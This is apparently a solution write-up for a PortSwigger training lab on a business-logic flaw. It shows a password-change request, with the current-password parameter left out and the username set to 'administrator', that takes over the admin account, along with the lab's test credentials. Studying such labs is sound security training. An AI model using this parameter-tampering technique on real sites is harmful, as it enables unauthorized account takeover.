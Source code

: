 
# Weak isolation on dual-use endpoint

This lab makes a flawed assumption about the user's privilege level based on their input. As a result, you can exploit the logic of its account management features to gain access to arbitrary users' accounts. To solve the lab, access the administrator account and delete Carlos.

You can log in to your own account using the following credentials: wiener:peter

---------------------------------------------

References: 

- https://portswigger.net/web-security/logic-flaws/examples



![img](images/Weak%20isolation%20on%20dual-use%20endpoint/1.png)

---------------------------------------------

Request generated when changing user's password:



![img](images/Weak%20isolation%20on%20dual-use%20endpoint/2.png)


```
POST /my-account/change-password HTTP/2
...

csrf=ujBucKnnF9611L81nMWHpHhtHVneK8JR&username=administrator&new-password-1=test&new-password-2=test
```



![img](images/Weak%20isolation%20on%20dual-use%20endpoint/3.png)


Then we can access with credentials administrator:test:



![img](images/Weak%20isolation%20on%20dual-use%20endpoint/4.png)